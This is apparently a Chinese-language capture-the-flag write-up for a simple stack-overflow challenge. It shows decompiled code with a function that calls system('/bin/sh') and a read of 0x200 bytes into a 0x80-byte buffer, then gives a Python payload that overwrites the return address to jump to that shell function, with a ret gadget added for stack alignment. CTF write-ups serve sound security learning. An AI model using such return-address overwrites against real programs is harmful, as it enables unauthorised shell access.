


先查看防护

再查看反汇编代码

~~~asm
00400596    int64_t callsystem()

004005a5        return system(line: "/bin/sh")

004005a6    ssize_t vulnerable_function()

004005c5        void buf
004005c5        return read(fd: 0, &buf, nbytes: 0x200)

004005c6    int32_t main(int32_t argc, char** argv, char** envp)

004005ce        int32_t argc_1 = argc
004005d1        char** argv_1 = argv
004005e4        write(fd: 1, buf: "Hello, World\n", nbytes: 0xd)
004005f4        return vulnerable_function()

~~~

关键代码：

~~~asm
004005c5        return read(fd: 0, &buf, nbytes: 0x200)
~~~

程序给出了callsystem函数获取shell，目标是控制程序执行流执行该函数。可能的溢出点是read。read规定了写入buf的长度，所以是否有溢出需要自行判断。所以我们阅读汇编代码。

~~~asm
004005ae  488d4580           lea     rax, [rbp-0x80 {buf}]
~~~

发现buf在rbp-0x80的位置，read可以读入0x200的数据，所以存在溢出空间。

payload构造：

~~~python
payload = b'A'*0x80+b'B'*0x8+p64(0x400596)
~~~

由于本机环境下出现栈对齐问题，所以可搜索一个ret的gadget加入payload即可解决。

~~~python
payload = b'A'*0x80+b'B'*0x8+p64(ret)+p64(0x400596)
~~~

